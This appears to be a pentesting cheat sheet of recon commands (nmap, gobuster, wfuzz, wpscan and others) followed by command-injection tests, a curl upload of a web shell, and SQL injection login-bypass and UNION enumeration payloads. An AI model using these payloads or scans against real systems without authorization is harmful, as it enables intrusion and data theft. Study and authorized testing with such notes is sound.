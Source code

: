 ### Recon
##### AutoRecon
```
autorecon -ct 2 -cs 2 -vv -o outputdir 192.168.1.100 192.168.1.1/30 localhost
autorecon x.x.x.x
````
- ct (concurrent targets)
- -o custom output directory location.
- -cs limits the number of concurent scans per target
- Auto recon will create and store the results in the /results directory.
##### Nmap
```
nmap -A -T5 x.x.x.x -p- -vv
nmap -sS x.x.x.x -p- --min-rate 10000
nmap --script=scriptname.nse x.x.x.x -vv
```
##### Nikto
```
nikto -h x.x.x.x
```
##### GoBuster
```
gobuster -u x.x.x.x
gobuster dir -u http://x.x.x.x -w /usr/share/wordlists/dirb/common.txt
gobuster -u http://x.x.x.x -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -x php
gobuster -s 200,204,301,302,307,403 -u x.x.x.x
```
##### Wfuzz
```
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 404 x.x.x.x/FUZZ
wfuzz -c -w /usr/share/seclists/Discovery/Web_Content/common.txt -R 3 --sc 200 x.x.x.x/FUZZ
wfuzz -c -z file,/root/.ZAP/fuzzers/dirbuster/directory-list-2.3-big.txt --sc 200 http://x.x.x.x/FUZZ.php
wfuzz --hw=1 --hh=3076 -w seclist_common_wordlist.txt http://x.x.x.x/FUZZ
```
##### WpScan
```
wpscan --url http://x.x.x.x --enumerate u,p,t
```
##### SNMPWalk
```
snmpwalk -c public -v1 x.x.x.x
````
##### NetDiscover
- Netdiscover is a network address discovering tool, developed mainly for those wireless networks without dhcp server, it also works on hub/switched networks. Its based on arp packets, it will send arp requests and sniff for replys.
```
netdiscover -r x.x.x.x
```
##### Webdav
- Incorrect permissions test 
```
cadaver http://x.x.x.x
davtest http://x.x.x.x
```
##### Command Injection
- File Traverse:
```
x.x.x.x/file.php?cmd=ls
```
- Test file upload with curl
```
curl -vX options http://x.x.x.x 
```
- Upload file using curl to website with PUT option available
```
curl --upload-file shell.php --url http://x.x.x.x
```
##### Login Bypass
```
john ' or '1'='1
```
- Enter into username and password
##### Determine vulnerable columns or column that is visible
```
param=' or 1=0 union select null,null,null
param=' or 1=0 union select 1,2,3
```
- Else try
```
param=' or 1=1 union select table_name,null,null from information_schema.tables
```
- If it produces an error try table_name at other positions
- Say Column 1 and 2 are visible from the above queries
- Further Enumerate
```
param=' or 1=0 union select table_schema,null,null from information_schema.columns
```
-Display all databse names
```
param=' or 1=0 union select table_name,null,null from information_schema.columns
```
- Display all table names
```
param=' or 1=1 select table_name,null,null from information_schema.columns where table_schema='public'
```
- Display tables inside public databse

